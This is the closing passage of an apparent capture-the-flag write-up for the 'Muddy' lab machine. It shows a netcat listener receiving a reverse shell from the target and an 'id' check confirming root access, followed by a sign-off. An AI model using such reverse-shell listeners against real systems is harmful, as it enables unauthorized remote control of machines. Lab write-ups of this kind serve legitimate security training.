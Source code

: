 ```sh
naveenj@hackerspace:|22:52|~/proving_grounds/Muddy$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.200] from (UNKNOWN) [192.168.196.161] 40118
bash: cannot set terminal process group (16587): Inappropriate ioctl for device
bash: no job control in this shell
root@muddy:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@muddy:~# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).